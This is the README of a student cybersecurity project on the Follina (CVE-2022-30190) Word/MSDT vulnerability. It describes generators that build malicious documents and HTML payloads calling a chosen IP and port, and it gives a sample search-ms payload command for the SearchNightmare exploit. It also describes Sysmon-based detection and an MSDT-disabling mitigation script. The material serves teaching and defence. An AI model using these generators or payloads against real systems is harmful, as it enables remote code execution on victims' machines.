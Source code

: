 # Five Nights at Follina's
A Fullstack Academy Cybersecurity project examining the full cycle of the Follina (CVE-2022-30190) vulnerability, from exploit to detection and defense.

Team:
- [Brian Aldrich](https://github.com/SB-Aldrich)
- [YoungWa Kim](https://github.com/T4369)
- [Jay O'Neill](https://github.com/rhomv)
- [(Binyang) Jeffrey Xu](https://github.com/jeffymcjeffface)

This set of tools assumes that you have a web host or can spin up a simple webserver using Python to host the generated or example payload files. 

# Disclaimer
The files in the Example Payloads folder contain actual malicious code. These were used with VMs on a local network and should not pose a problem on a secure network where you trust all machines, but please take care when using or modifying these files. Additionally, the document and payload generators obviously create malicious files of their own. Please use these tools only on VMs or other disposable environments! Don't use any tools here you don't understand.

# Offensive Tools
To create the Microsoft Word document with the Follina exploit, run docgen_v3.py, using the following options
- --extention/-e : change the document output from .doc (default) to rtf for a zero click attack. -e rtf
- --ip_address/-ip : change the IP address the document will try to reach out to (detault is 10.0.2.15).
- --port/-p : changes the port it will try to reach out to (default is 8000)

To create a payload html file, use generate_payload.py with either the `poc` subcommand to generate a proof of concept payload that opens the Windows Calculator or the `custom` subcommand to generate a payload with your own script.

Examples:
- `python generate_payload.py poc -o test.html` will generate the calculator payload in test.html
- `python generate_payload.py custom -o test.html -p "search-ms:query=procmon.exe&crumb=location:%5C%5Clive.sysinternals.com%5Ctools&displayname=IMPORTANT%20UPDATE"` will generate test.html as a custom payload with the SearchNightmare exploit

Example payloads can be found in the "Example Payloads" folder.

# Defensive Tools
Follina detection requires Sysmon to be installed to log events. Our detection methods here rely on finding instances where Microsoft Word calls MSDT.exe, but the scripts can be modified to search for other artifacts such as the arguments used by Follina in its Powershell command. The following tools are available:
- The Python scripts in the Sysmon Search folder allow a user to search their Sysmon logs for possible indicators of compromise by Follina and then manually examine those logs for confirmation.
- The msdt_exp-del-v3.ps1 Powershell script performs a similar search and, if it detects signs of Follina, makes a backup of the MSDT registry key and disables MSDT by deleting the key.
